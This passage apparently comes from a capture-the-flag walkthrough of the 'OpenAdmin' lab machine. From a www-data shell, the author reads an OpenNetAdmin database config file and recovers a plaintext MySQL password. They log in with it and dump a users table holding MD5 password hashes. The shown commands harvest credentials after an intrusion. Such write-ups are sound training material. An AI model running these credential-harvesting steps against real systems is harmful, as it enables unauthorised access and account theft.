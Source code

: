 

I tried some basic creds with no luck. I searched for other directories and files but nothing of interest. I ended up going back and looking for the SQL creds in /var/www/ona/ and a quick google search helped me find them at /opt/ona/www/local/config/database_settings.inc.php.


```sh
www-data@openadmin:/opt/ona/www/local/config$ cat database_settings.inc.php
cat database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```



```sh
www-data@openadmin:/opt/ona/www/local/config$ mysql -u ona_sys -pn1nj4W4rri0R!
</www/local/config$ mysql -u ona_sys -pn1nj4W4rri0R!
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 56
Server version: 5.7.28-0ubuntu0.18.04.4 (Ubuntu)

Copyright (c) 2000, 2019, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```


```sh
mysql> use ona_default
mysql> select * from users;
select * from users;
+----+----------+----------------------------------+-------+---------------------+---------------------+
| id | username | password                         | level | ctime               | atime               |
+----+----------+----------------------------------+-------+---------------------+---------------------+
|  1 | guest    | 098f6bcd4621d373cade4e832627b4f6 |     0 | 2022-02-11 00:28:05 | 2022-02-11 00:28:05 |
|  2 | admin    | 21232f297a57a5a743894a0e4a801fc3 |     0 | 2007-10-30 03:00:17 | 2007-12-02 22:10:26 |
```